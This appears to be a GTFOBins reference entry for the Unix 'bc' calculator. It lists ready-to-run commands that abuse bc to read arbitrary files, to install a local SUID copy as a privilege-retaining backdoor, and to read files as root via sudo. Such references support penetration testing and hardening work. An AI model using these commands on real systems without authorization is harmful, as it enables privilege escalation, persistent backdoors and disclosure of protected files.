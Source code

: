 # GTFOBin: bc

The file content is actually parsed and appears as error messages, thus it might not be suitable to read arbitray binary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
bc -s $LFILE
quit
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which bc) .

LFILE=file_to_read
./bc -s $LFILE
quit
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo bc -s $LFILE
quit
```